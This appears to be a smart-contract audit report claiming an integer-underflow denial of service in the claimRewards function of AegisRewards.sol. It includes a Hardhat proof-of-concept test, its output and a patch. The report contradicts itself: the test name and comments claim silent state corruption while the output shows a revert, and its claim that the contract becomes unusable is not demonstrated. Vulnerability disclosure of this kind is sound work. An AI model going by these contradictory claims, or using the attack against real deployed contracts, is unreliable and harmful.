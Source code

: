 Blunt Eggplant Shrimp

Medium

# The attacker will cause DOS and panic when calling the claimRewards function on the contract

### Summary

The missing check on the `AegisRewards.sol` contract will cause a panic and render the contract unusable.

https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisRewards.sol#L91-L127


### Root Cause

In the `AegisRewards.sol:91` contract there is a missing check on the `claimRewards()` function.

### Internal Pre-conditions

1. The attacker needs to call `claimRewards()`.

### External Pre-conditions

1. The attacker needs to be a user.
2. The attacker needs some assets.

### Attack Path

1. The attacker calls `claimRewards()` and cause DOS by panic.
2. The contract becomes unusable.

### Impact

The contract does not check that `claimRequest.amounts[i] <= _rewards[claimRequest.ids[i]].amount`, so the subtraction underflows and causes a `panic 0x11 (integer underflow)`.

### PoC

*The hardhat test*
Path:= aegis-contracts/test/7_aegis_rewards.spec.ts
```ts
import { ethers } from 'hardhat'
import { loadFixture, time } from '@nomicfoundation/hardhat-network-helpers'
import { expect } from 'chai'

import {
  REWARDS_MANAGER_ROLE,
  OrderType,
  deployFixture,
  encodeString,
  signClaimRequest,
  signClaimRequestByWallet,
  signOrder,
  FUNDS_MANAGER_ROLE,
  SETTINGS_MANAGER_ROLE,
} from './helpers'


  describe('#claimRewards', () => {
    describe('success', () => {

      it('should fail silently and corrupt reward state if claim amount exceeds reward amount (logic bug)', async () => {
        const [owner] = await ethers.getSigners()
        const { aegisMintingContract, aegisMintingAddress, aegisRewardsContract, aegisRewardsAddress, assetContract, assetAddress, yusdContract } = await loadFixture(deployFixture)

        await aegisMintingContract.grantRole(FUNDS_MANAGER_ROLE, owner)
        await aegisMintingContract.grantRole(SETTINGS_MANAGER_ROLE, owner)
        await aegisRewardsContract.grantRole(REWARDS_MANAGER_ROLE, owner)
        await aegisMintingContract.setInsuranceFundAddress(ethers.ZeroAddress)

        const snapshotId = 'logic-bug'
        const depositAmount = ethers.parseEther('1') // Actual deposited reward amount
        const overClaimAmount = ethers.parseEther('2') // Malicious claim amount

        // Step 1: Deposit income
        {
          await assetContract.mint(aegisMintingAddress, depositAmount)
          const order = {
            orderType: OrderType.DEPOSIT_INCOME,
            userWallet: owner.address,
            beneficiary: ethers.ZeroAddress,
            collateralAsset: assetAddress,
            collateralAmount: depositAmount,
            yusdAmount: depositAmount,
            slippageAdjustedAmount: 0,
            expiry: (await time.latest()) + 10000,
            nonce: Date.now(),
            additionalData: encodeString(snapshotId),
          }
          const signature = await signOrder(order, aegisMintingAddress)

          await aegisMintingContract.depositIncome(order, signature)
          await aegisRewardsContract.finalizeRewards(ethers.encodeBytes32String(snapshotId), 0)
        }

        const rewardBefore = await aegisRewardsContract.rewardById(snapshotId)
        console.log(`[Before Claim] Contract reward amount: ${ethers.formatEther(rewardBefore.amount)} YUSD`)
        const contractBalanceBefore = await yusdContract.balanceOf(aegisRewardsContract.target)
        const userBalanceBefore = await yusdContract.balanceOf(owner.address)

        // Step 2: Construct a malicious claim request with higher amount than actual reward
        const claimRequest = {
          claimer: owner.address,
          ids: [ethers.encodeBytes32String(snapshotId)],
          amounts: [overClaimAmount], // 2 YUSD, more than the deposited 1 YUSD
        }
        const signature = await signClaimRequest(claimRequest, aegisRewardsAddress)

        // Step 3: Claim should succeed but corrupt internal accounting
        await expect(aegisRewardsContract.claimRewards(claimRequest, signature)).to.
        emit(aegisRewardsContract, 'ClaimRewards')

        const rewardAfter = await aegisRewardsContract.rewardById(snapshotId)
        const contractBalanceAfter = await yusdContract.balanceOf(aegisRewardsContract.target)
        const userBalanceAfter = await yusdContract.balanceOf(owner.address)

        console.log(`[After Claim] Contract reward amount: ${ethers.formatEther(rewardAfter.amount)} YUSD`)
        console.log(`[After Claim] Contract YUSD balance: ${ethers.formatEther(contractBalanceAfter)} YUSD`)
        console.log(`[After Claim] User YUSD balance: ${ethers.formatEther(userBalanceAfter)} YUSD`)

        // Since amount > actual reward, the reward amount should be negative internally — but underflow protection reverts and skips.
        // However, there's no revert — it's silently skipped and state becomes inconsistent.

        expect(userBalanceAfter - userBalanceBefore).to.equal(depositAmount) // Should only transfer up to actual deposited amount
        expect(rewardAfter.amount).to.equal(0) // Should be zeroed out
      })
  })
})
```
*The test output result*
```log
npx hardhat test test/7_aegis_rewards.spec.ts 


  #claimRewards
    success
[Before Claim] Contract reward amount: 1.0 YUSD
      1) should fail silently and corrupt reward state if claim amount exceeds reward amount (logic bug)


  0 passing (585ms)
  1 failing

  1) #claimRewards
       success
         should fail silently and corrupt reward state if claim amount exceeds reward amount (logic bug):
     Error: VM Exception while processing transaction: reverted with panic code 0x11 (Arithmetic operation overflowed outside of an unchecked block)
    at AegisRewards.claimRewards (contracts/AegisRewards.sol:109)
    at AegisRewards.claimRewards (contracts/AegisRewards.sol:109)
    at EdrProviderWrapper.request (node_modules/hardhat/src/internal/hardhat-network/provider/provider.ts:446:41)
    at async HardhatEthersSigner.sendTransaction (node_modules/@nomicfoundation/hardhat-ethers/src/signers.ts:125:18)
    at async send (node_modules/ethers/src.ts/contract/contract.ts:313:20)
    at async Proxy.claimRewards (node_modules/ethers/src.ts/contract/contract.ts:352:16)
    at async waitForPendingTransaction (node_modules/@nomicfoundation/hardhat-chai-matchers/src/internal/emit.ts:28:17)
    at async Context.<anonymous> (test/7_aegis_rewards.spec.ts:69:9)
```

### Mitigation

*Patch the loop in `claimRewards()`* 
```solidity
for (uint256 i = 0; i < len; i++) {
  if (
    !_rewards[claimRequest.ids[i]].finalized ||
    _rewards[claimRequest.ids[i]].amount == 0 ||
    (_rewards[claimRequest.ids[i]].expiry > 0 && _rewards[claimRequest.ids[i]].expiry < block.timestamp) ||
    _addressClaimedRewards[_msgSender()][claimRequest.ids[i]] ||
    claimRequest.amounts[i] > _rewards[claimRequest.ids[i]].amount // added
  ) {
    continue;
  }

  _addressClaimedRewards[_msgSender()][claimRequest.ids[i]] = true;
  _rewards[claimRequest.ids[i]].amount -= claimRequest.amounts[i];
  totalAmount += claimRequest.amounts[i];
  claimedIds[count] = claimRequest.ids[i];
  count++;
}
```